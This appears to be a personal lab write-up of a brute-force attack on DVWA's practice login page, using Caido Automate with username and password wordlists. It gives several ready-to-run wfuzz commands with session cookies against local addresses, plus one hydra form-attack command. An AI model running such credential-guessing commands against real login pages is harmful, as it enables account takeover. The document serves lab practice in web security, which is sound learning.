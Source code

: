 ```yaml
---
title: "Brute Force"
date: 2024-02-07T16:06:04+01:00
draft: false
tags: ["Caido", "Web", "DVWA"]
categories: ["Hacking"]
---
```


A brute force attack can manifest itself in many different ways, but primarily consists in an attacker configuring predetermined values, making requests to a server using those values, and then analyzing the response. For the sake of efficiency, an attacker may use a dictionary attack (with or without mutations) or a traditional brute-force attack (with given classes of characters e.g.: alphanumeric, special, case (in)sensitive). Considering a given method, number of tries, efficiency of the system which conducts the attack, and estimated efficiency of the system which is attacked the attacker is able to calculate approximately how long it will take to submit all chosen predetermined values.

https://owasp.org/www-community/attacks/Brute_force_attack


At the Login page  attempt to log in with any random character

![](1.png)

In Caido;
	In the HTTP history tab find the corresponding request:
	
![](2.png)

Send it to Automate

![](3.png)

Select matrix:
Highlight the username you entered, and add a payload
Make a list of all the usernames you know

![](4.png)


Highlight the the password you entered
Google: password list small filetype:txt
find a suitable file containing passwords
In Caido on the left menu select 'files' and upload your workdlist

![](5.png)

	Back in Automate:
	Select the password you entered and add a second payload
		Type: Hosted file 
		Select your wordlist
			Hit 'Run'

![](6.png)

Once you've run the file sort the requests by Length(decending)

![](7.png)

Also: 

![](8.png)

Open the image and you'll find the directory 
	
![](9.png)

![](10.png)

Try this command: 
`wfuzz -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.0.123/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'`

![](11.png)


This one is for 'gordonb':

`wfuzz -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' '
http://192.168.10.123/dvwa/vulnerabilities/brute/?username=gordonb&password=FUZZ&Login=Login'
`

![](12.png)

Add the show words flag: --sw

`wfuzz **--sw 259** -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'`

![](13.png)

Even better:

`wfuzz **--hh 4373** -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf'
'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=gordonb&password=FUZZ&Login=Login'`

This will hide responses with 4373 characters.
	
![](14.png)

![](15.png)

`wfuzz --hh 4373 -c -w users.txt -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'`


I'm struggling to get the hard one. 

`hydra -L users.txt -P shortlist.txt -u 192.168.10.123 http-post-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F='Username and/or password incorrect'" -I`

**High:**

Need to find a way to use the correct csrf/user token 
